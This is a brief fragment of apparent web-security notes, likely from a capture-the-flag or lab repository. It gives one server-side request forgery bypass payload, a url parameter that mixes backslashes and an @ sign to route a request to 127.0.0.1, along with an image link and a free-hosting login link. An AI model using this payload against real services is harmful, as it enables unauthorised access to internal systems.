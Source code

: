 SSRF bypass
url=http://hiecck133.liveblog365.com\index.php\@127.0.0.1

![alt text](image.png)

web deploy: https://profreehost.com/login/